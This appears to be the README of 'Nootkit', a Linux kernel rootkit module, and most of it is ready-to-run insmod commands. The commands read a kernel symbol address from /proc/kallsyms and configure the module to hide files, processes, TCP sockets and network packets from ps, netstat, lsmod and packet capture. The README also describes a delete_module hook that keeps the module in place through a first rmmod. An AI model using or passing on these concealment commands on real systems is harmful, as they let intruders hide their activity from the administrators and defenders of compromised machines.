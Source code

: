 # Nootkit

Noot noot?
![noot?](https://i.kym-cdn.com/entries/icons/original/000/040/642/terrifiednootnoot.jpg)

A basic rootkit with resource hiding capabilities.

You are welcome to browse the [story-oriented documentation](docs/section-1.md)
or give it a go.

## Compiling

Currently only Ubuntu 22 LTS kernels of version 5.15.0-76 are supported -
and to compile the module you'll have to get the corresponding headers as they aren't
included.

Headers are assumed to be located at `kernel-headers/linux-headers-5.15.0-76-generic`,
in the same exact structure as they are present on Ubuntu machines at
`/lib/modules/5.15.0-76-generic`.

## Usage

`nootkit` can receive a configuration through module parameters -
which are at the moment not exposed after the module has been loaded.

An example `insmod` command to set certain filenames and inodes to be hidden
from common usermode APIs is:

```sh
insmod /nootkit.ko \
kallsyms_lookup_name=0x$(cat /proc/kallsyms | grep "\bkallsyms_lookup_name\b" | cut -d " " -f 1) \
hide_filenames=hello,bigboy \
hide_inodes=138210,17635,1337
```

### Configuration

The kernel space address of `kallsyms_lookup_name` must be provided to the module at load time,
as it is used to locate other unexported symbols.

Possible module arguments are:

- `kallsyms_lookup_name`: Must be present, can be obtained via `/proc/kallsyms` as shown above
- `hide_filenames`: Comma-separated list of file names and absolute paths to hide from usermode dir listings
- `hide_inodes`: Comma-separated list of inode numbers to hide from usermode dir listings
- `hide_sockets`: Comma-separated list of socket filter strings following the format (explained
  [below](#socket-filter-format)) - IPv4 socket matching this filter will be hidden from `netstat` commands.
- `hide_packets`: Comma-separated list of packet filter strings following the format (explained [below](#packet-filter-format))

You are also welcome to check out the [makefile](Makefile) for some semi-automatic tests.

#### Socket Filter Format

Pretty simple really, just follow this template:

```txt
IP PROTO = 6; LOCAL = 0.0.0.0/0.0.0.0:1300-1400; FOREIGN = 0.0.0.0/0.0.0.0:0-65535;
```

Where `PROTO` is a valid IP protocol number, although only TCP sockets are supported.
`PROTO` 0 is magic and matches any protocol number.

`LOCAL` describes the local IP/Mask:PortRangeStart-PortRangeEnd, and `FOREIGN` does the same for... The foreign address.

Port ranges are *inclusive*. Spaces aren't mandatory anywhere.

#### Packet Filter Format

A lot like the socket filter format above (even represented the same in memory!), but a little more detailed:

```txt
ETH PROTO = 0; ETH SRC = 00:00:00:00:00:00; ETH DST = 00:00:00:00:00:00; IP PROTO = 6; IP SRC = 0.0.0.0/0.0.0.0:0-65535; IP DST = 0.0.0.0/0.0.0.0:1300-1350;

# Or ARP for example

ETH PROTO = 0806; ETH SRC = 00:00:00:00:00:00; ETH DST = 00:00:00:00:00:00; IP PROTO = 0; IP SRC = 0.0.0.0/0.0.0.0:0-65535; IP DST = 0.0.0.0/0.0.0.0:0-65535;
```

Again the `PROTO`s are each valid protocol numbers for their respective protocol, and 0 is magic and matches all protocols.
Note that `ETH PROTO` parses input as *hexadecimal*.

## Features

### Hiding Files From Dir Listings

Examples:

#### Hide all files named `hello`, no matter the path, from dir listings

```sh
insmod /nootkit.ko \
kallsyms_lookup_name=0x$(cat /proc/kallsyms | grep "\bkallsyms_lookup_name\b" | cut -d " " -f 1) \
hide_filenames=hello
```

#### In addition, hide the paths `/root/bigboy` and `/home/john/wayne`

```sh
insmod /nootkit.ko \
kallsyms_lookup_name=0x$(cat /proc/kallsyms | grep "\bkallsyms_lookup_name\b" | cut -d " " -f 1) \
hide_filenames=hello,/root/bigboy,/home/john/wayne
```

#### Hide all files with an inode number of `524290`

```sh
insmod /nootkit.ko \
kallsyms_lookup_name=0x$(cat /proc/kallsyms | grep "\bkallsyms_lookup_name\b" | cut -d " " -f 1) \
hide_inodes=524290
```

### Hiding Processes From Various Utilities

Hiding processes from various utilities including `ps` can be done by hiding the path `/proc/[pid]` corresponding
to the process. There is no specific API at the moment specific to hiding processes.

For example:

#### Hide the processes with PIDs `7047` and `682` from `ps`

```sh
insmod /nootkit.ko \
kallsyms_lookup_name=0x$(cat /proc/kallsyms | grep "\bkallsyms_lookup_name\b" | cut -d " " -f 1) \
hide_filenames=/proc/7047,/proc/682
```

### Hiding TCP Sockets From Various Utilities

Sockets can be hidden from `netstat` and other utilities by specifying their properties in the socket filter format
shown [above](#socket-filter-format).

Example:

#### Hide all sockets bound to local TCP ports 10 to 30, on the local address 192.168.122.122

```sh
insmod /nootkit.ko \
kallsyms_lookup_name=0x$(cat /proc/kallsyms | grep "\bkallsyms_lookup_name\b" | cut -d " " -f 1) \
"hide_sockets=\"PROTO = 1; LOCAL = 192.168.122.122/255.255.255.255:10-30; FOREIGN = 0.0.0.0/0.0.0.0:0-65535;\""
```

### Hiding Packets

Packets can be hidden at a very low level - neither `AF_PACKET` sockets or even XDP BPF running in the generic
context will see them.
Packets can be hidden by specifying their properties in the packet filter format shown [above](#packet-filter-format).

Example:

#### Hide all TCP packets directed to port 1337, and all ARP packets in general

```sh
insmod /nootkit.ko \
kallsyms_lookup_name=0x$(cat /proc/kallsyms | grep "\bkallsyms_lookup_name\b" | cut -d " " -f 1) \
"hide_packets=\" \
ETH PROTO = 0; ETH SRC = 00:00:00:00:00:00; ETH DST = 00:00:00:00:00:00; IP PROTO = 6; IP SRC = 0.0.0.0/0.0.0.0:0-65535; IP DST = 0.0.0.0/0.0.0.0:1337-1337;, \
ETH PROTO = 0806; ETH SRC = 00:00:00:00:00:00; ETHDST = 00:00:00:00:00:00; IPPROTO = 0; IP SRC = 0.0.0.0/0.0.0.0:0-65535; IP DST = 0.0.0.0/0.0.0.0:0-65535; \
\""
```

### Hiding The Module Itself

`nootkit`'s self hiding feature is quite basic at the moment - it only hides from `/proc/modules`, making it
invisible to `lsmod`. It is still however visible under `/sys/module`.

To allow removing the module, a hook is installed for the syscall `delete_module`, such that running `rmmod nootkit`
*once* disables the hiding of the module, and running it again removes the module regularly. See the reason
for this implementation in [src/arch/x86_64/hide/module_sys.c](src/arch/x86_64/hide/module_sys.c).
